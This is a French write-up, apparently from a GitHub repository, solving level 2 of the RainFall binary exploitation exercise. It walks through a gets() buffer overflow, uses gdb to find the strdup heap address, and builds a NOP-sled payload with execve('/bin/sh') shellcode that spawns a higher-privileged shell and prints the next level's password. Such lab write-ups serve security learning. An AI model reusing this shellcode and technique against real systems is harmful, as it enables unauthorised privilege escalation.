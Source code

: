 # **Level 2**

Pour le `level2` c'est la meme idee sauf qu'il n'y a rien dans le code pour lancer un shell, donc on va devoir le lancer par nous meme

```
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

Le but de cet exercice est d'utiliser la heap (pas la stack car la condition nous empeche de pointer epi sur la stack `(unaff_retaddr & 0xb0000000) == 0xb0000000`) pour executer du code que nous allons lui passer en input

Pour ca on utilise comme point d'entree `gets` pour ecrire notre payload et le retour de `strdup` pour savoir ou pointer le debut d'execution

Comme le buffer est assez grand, on peux ecrire notre `shellcode` dedans, donc on cherche un shellcode pour executer execve("/bin/sh")
[ShellStorm](https://shell-storm.org/shellcode/index.html)
[exploit-db](https://www.exploit-db.com/shellcodes)
[HackNDo](https://beta.hackndo.com/buffer-overflow/)

On comble le debut de notre payload par des `nop (\x90)` instruction qui permet de passer a la suivante

Et on fini par overwrite `eip` pour faire pointer l'instruction suivant sur le pointeur que r'envoie `strdup`

> On aura quelque chose de la forme `\x90 * (len(to eip) - len(shellcode)) + shellcode + address de debut`

Pour trouver l'addresse de strdup on utilise gdb

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853e
Breakpoint 1 at 0x804853e
(gdb) run
Starting program: /home/user/level2/level2 
aaaa
aaaa

Breakpoint 1, 0x0804853e in p ()
(gdb) r i
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) i r
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6cc	-1073744180
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff71c	0xbffff71c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804853e	0x804853e <p+106>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/s 0x804a008
0x804a008:	 "aaaa"
```
On peux donc construire notre payload

```
level2@RainFall:/var/crash$ python -c "print '\x90'*35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" > /var/crash/lvl2
```

Et on l'execute

```
level2@RainFall:~$ cat /var/crash/lvl2 -| ./level2 
������������������������������������^�1��F�F
                                            �
                                             ���V
                                                 1�����/bin/s�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

```

> ### NEXT : [Level 3](/level3/resources/README.md)
